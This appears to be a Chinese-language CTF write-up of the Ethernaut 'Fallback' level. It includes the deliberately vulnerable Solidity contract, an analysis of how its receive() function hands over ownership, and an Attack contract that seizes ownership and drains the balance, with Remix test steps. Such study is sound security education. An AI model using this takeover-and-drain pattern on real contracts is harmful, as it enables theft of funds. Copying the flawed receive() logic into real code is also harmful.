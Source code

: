 

# Fallback

## 漏洞代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## 目标

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract   获取合约的所有权
2. you reduce its balance to 0  窃取所有余额

 Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see `help()` command)
- Fallback methods

## 分析&攻击

结合合约代码和目标看，withdraw()可以提取所有余额，但是用onlyOwner修饰过，只允许owner调用，因此只需要让owner变成我们自己就能达到两个目标。总共三个修改这个变量的地方，constructor()、contribute()和receive()

（1）constructor()是构造函数，我们调用不了；

（2）contribute()是public，可以调用，但是有条件，贡献的币必须比原有owner贡献的高，然而owner部署合约的时候就贡献了1000eth，每次贡献的msg.value还被限制必须 < 0.001 ether，所以要走到if(contributions[msg.sender] > contributions[owner])，得调用1000/0.001次contribute，显然不行

（3）receive()是收到转账是触发，满足msg.value > 0 && contributions[msg.sender] > 0就能让owner = msg.sender;

因此先贡献一点点eth，然后给漏洞合约转账，就能满足这个条件

攻击合约代码：

```
contract Attack{
    Fallback public fb; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Fallback _fb) payable {
        fb = _fb;
    }
    // 先贡献然后转钱 要满足require(msg.value > 0 && contributions[msg.sender] > 0);这个条件
    function contributeIt() external payable{
        fb.contribute{value:1}();
    }
    function attackIt() external payable{
        //fb.contribute{value:1}();
        (bool isSuccess, /* memory data */ ) = payable(address(fb)).call{value: 1 wei}("");
        require(isSuccess, "Failure! Ether not send.");
    }
    //最后窃取漏洞合约所有的币
    function withdrawIt() external payable{
        fb.withdraw();
    }
    receive() external payable {
        
    }
}
```

我们用remix简单测试下

先用第一个账户部署Fallback合约

![image-20240328094234694](README.assets/image-20240328094234694.png)

可以看到当前owner是0x5B38Da6a701c568545dCfcB03FcB875f56beddC4这个账户，贡献值很高

![image-20240328094316267](README.assets/image-20240328094316267.png)

此时记住Fallback合约的地址（0xDA0bab807633f07f013f94DD0E6A4F96F8742B53），然后用第二个账户部署Attack合约，给第二个合约打点初始资本（这里给了10000wei），用于后面给Fallback合约做贡献

![image-20240328094434841](README.assets/image-20240328094434841.png)

先满足第一个条件，让贡献值大于0

![image-20240328094614594](README.assets/image-20240328094614594.png)

然后执行attackIt

![image-20240328094649614](README.assets/image-20240328094649614.png)

可以看到owner已经变成我们attack合约的地址了，然后执行withdrawIt就能提取所有贡献的币

![image-20240328095055376](README.assets/image-20240328095055376.png)

